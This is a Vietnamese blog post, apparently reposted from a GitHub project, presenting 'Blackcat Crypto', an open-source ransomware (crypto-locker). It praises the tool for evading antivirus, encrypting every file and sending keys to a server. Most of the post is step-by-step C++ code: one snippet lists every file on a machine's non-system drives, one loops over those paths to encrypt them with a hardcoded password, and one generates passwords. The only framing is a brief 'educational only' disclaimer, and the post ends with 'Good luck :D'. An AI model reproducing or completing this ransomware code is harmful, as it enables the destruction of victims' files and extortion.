 ```yaml
---
title: Mã Độc Blackcat Crypto
date: 23/06/2021
layout: single
header:
  teaser: /assets/images/madoc.jpg
--- 
```



## Mô Tả 
Khuyến cáo công cụ chỉ mang tính chất giáo dục, không sử dụng các mục đích vi phạm pháp luật, tôi và tác giả của bài viết này sẽ không chịu trách nhiệm với hành động của các bạn với mục đích bất hợp pháp nào Cảm Ơn! 

Blackcat Crypto là Crypto-Locker mã nguồn mở. Blackcat Crypto được phát triển bằng Visual C ++. Nó có các tính năng mã hóa tất cả các tập tin, khóa hệ thống và gửi các khóa trở lại máy chủ. Chức năng đa luồng giúp công cụ này mã hóa nhanh hơn.

Khó có thể bị phát hiện bởi Công cụ chống virus.

Sử dụng thuật toán mã hóa 256-bit mạnh mẽ, Khi một tệp được mã hóa, Tệp sẽ hoàn toàn vô dụng nếu không có mật khẩu. Nó chỉ đơn giản là không thể đọc được [ajayrandhawa/Cryptolocker](https://github.com/ajayrandhawa/Cryptolocker)



## Đặc trưng
1. Mã hóa AES mạnh mẽ.
2. Chức năng hệ thống khóa.
3. Mã hóa đa luồng.


![](https://raw.githubusercontent.com/ajayrandhawa/Cryptolocker/master/ezgif-1-e99b3d2b6b39.gif)
 
## Bước 1 (Fetch files)
Lấy tất cả các tệp từ tất cả các ổ đĩa để mã hóa chúng.

Đây là chương trình Visual C ++ lấy tất cả danh sách thư mục & tệp trong ổ đĩa và lưu trữ đường dẫn trong tệp văn bản để mã hóa sử dụng sau này. Tôi sử dụng thư viện Boost C ++ để lấy danh sách tất cả các tệp. Trước tiên hãy thiết lập thư viện Boost để biên dịch chương trình.

![Language](https://img.shields.io/badge/Lang-c++-blue.svg)

```cpp
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>
#include <stdio.h>
#include <windows.h>

using namespace std;

fstream out_file("data.txt", ios::out);

#define MAX 256

int main(int argc, char* argv[]) {

    int dr_type = 99;
    char dr_avail[MAX];
    char *temp = dr_avail;

    /* 1st we fill the buffer */
    GetLogicalDriveStrings(MAX, dr_avail);
    while (*temp != NULL) { // Split the buffer by null
        dr_type = GetDriveType(temp);

        char skip[10] = "C:\\";

        if (dr_type == 3 && temp[0] != 'C') {

            boost::system::error_code dir_error;

            for (boost::filesystem::recursive_directory_iterator end, dir(temp, dir_error); dir != end; dir.increment(dir_error)) {
                if (dir_error.value()) {
                    cerr << "Error accessing file: " << dir_error.message() << endl;
                }
                else {
                    cout << dir->path() << endl;
                    out_file << dir->path() << "\n";
                }
            }
        }
        temp += lstrlen(temp) + 1;
    }
    out_file.close();
    system("pause");
```

## Bước 2 (Encrypt files)
Trước tiên,  lấy từng đường dẫn tệp từ "data.txt" và gửi tới công cụ crypy này với mã hóa kiểu và mật khẩu. bạn cũng có thể nhúng tất cả chương trình này vào vòng lặp trên để lấy đường dẫn và mã hóa dữ liệu một cách đệ quy.

```cpp
out_file.open("data.txt", ios::in);
    string line;
    while (out_file.good()) {
        getline(out_file, line);
        cout << line << endl;
        std::string cmmd = "crpt.exe -e -p 4321 ";
        cmmd += line;
        system(cmmd.c_str());
    }

```
## Bước 3 (Create Long String Complex Password Function)
Gửi độ dài đến hàm và hàm trả về mật khẩu phức tạp dài được tạo mà bạn có thể sử dụng để mã hóa.
```cpp
string RandomString(int len)
{
    srand(time(0));
    string str = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
    string newstr;
    int pos;
    while (newstr.size() != len) {
        pos = ((rand() % (str.size() - 1)));
        newstr += str.substr(pos, 1);
    }
    return newstr;
}

```

## Bài viết được chia sẻ bởi tác giả [ajayrandhawa](https://github.com/ajayrandhawa/)

## Chúc may mắn :D

